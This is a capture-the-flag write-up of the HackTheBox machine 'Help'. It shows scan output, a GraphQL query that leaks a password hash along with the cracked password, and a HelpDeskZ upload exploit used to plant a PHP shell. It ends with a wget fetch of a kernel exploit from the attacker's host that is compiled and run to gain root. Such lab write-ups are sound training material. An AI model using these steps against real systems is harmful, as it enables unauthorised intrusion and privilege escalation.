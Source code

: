 ```yaml
---
title: "HackTheBox: Help Write Up!"
date: 2019-04-02
tags: [Hackthebox, ctf, writeup, Help]
excerpt: "HackTheBox: Help Write Up!"
header:
  image: "assets/images/hackthebox-images/carrier-hackthebox-header.png"

---
```


# Enumeration:

## Nmap:

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 --max-retries 0 -o help-max.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:42 EST
Warning: 10.10.10.121 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.121
Host is up (0.21s latency).
Not shown: 38798 filtered ports, 26735 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 -T4 -Pn -o help-all.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:43 EST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.40% done; ETC: 14:54 (0:10:52 remaining)
Warning: 10.10.10.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.121
Host is up (0.22s latency).
Not shown: 65525 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
3000/tcp  open     ppp
8095/tcp  filtered unknown
15523/tcp filtered unknown
17954/tcp filtered unknown
17965/tcp filtered unknown
43723/tcp filtered unknown
60785/tcp filtered unknown
62421/tcp filtered unknown
```

## Fetching credentials from graphql Port 3000:

Index page:

```console
root@HassanKhan:~# curl "http://10.10.10.121:3000/" && echo -e "\n"
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran dirsearch and was able to find the endpoing query. After looking at the syntax of graphql that how it works, I was finally able to query the right syntax and was able to fetch credentials from that.

```console
root@HassanKhan:~# curl -s "http://10.10.10.121:3000/graphql?query=query%20%7B%20%0A%20%20user%7Busername:password%7D%0A%7D&variables=%7B%7D" | jq
{
  "data": {
    "user": {
      "username": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
Decrypt the md5 hash:

5d3c93182bb20f07b994a7f617e99cff : godhelpmeplz

Additionally, I have used extension that helped me to query the right syntax of graphql. That extension is “Altair Graphql Client”.

## Port 80:

Nikto scan:

```console
root@HassanKhan:~# nikto -h 10.10.10.121

Nikto v2.1.6/2.1.5
Target Host: 10.10.10.121
Target Port: 80
GET Server leaks inodes via ETags, header found with file /, fields: 0x2c37 0x57ff4a041d89c
GET The anti-clickjacking X-Frame-Options header is not present.
GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
OSVDB-3268: GET /admin/: Directory indexing found.
OSVDB-3092: GET /admin/: This might be interesting...
GET Cookie PHPSESSID created without the httponly flag
GET Cookie lang created without the httponly flag
OSVDB-3092: GET /support/: This might be interesting...
OSVDB-3233: GET /icons/README: Apache default file found.
```

Nothing interesting expect the /admin/ directories. Running dirsearch on port 80 brought /support/
 directory in front of me which was helpdeskz.

 Looking if there's any exploit available for the helpdeskz.

## Exploitation:

 So we found 2 exploits so far. great! As, helpdeskz is open-source, we can check that how does file upload work.
 @ https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/view_tickets_controller.php

 To made the exploit work, I had to do some modifications in the exploit that were:
 1- adjusting the time that is
 currentTime = int(time.time() + 7200) and
 2- changing the loop
 for x in range(0, 500): // 500 all most 8 mins

 You have to do modifications to the exploit code according to the difference between your time and the server response time. anyways, this could be done manually as well. Manual steps will be:

+ Uploaded php file splint3r7.php
+ Extracted the data header from response
+ converted the date header into seconds timestamp
@ https://www.epochconverter.com/
+ converted md5(filename.phptimestamp)
+ Found the shell on server with directory:
+ 10.10.10.121/support/uploads/tickets/md5string.php

## Privilege Escalation:

```console
$ uname -a
linux 4.4.0-116-generic
```

Exploit:
@ https://www.exploit-db.com/exploits/44298

```console
help@help:/tmp$ wget 10.10.14.49:1330/exploit1337.c
help@help:/tmp$ gcc exploit1337.c -o exploit1337h
gcc exploit1337.c -o exploit1337h
help@help:/tmp$ ./exploit1337h
./exploit1337h
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
cd /root/
ls -la
cat root.txt
b7fe6082dcdf0c1b1e02ab0d9daddb98
```

And we just owned the root ;)
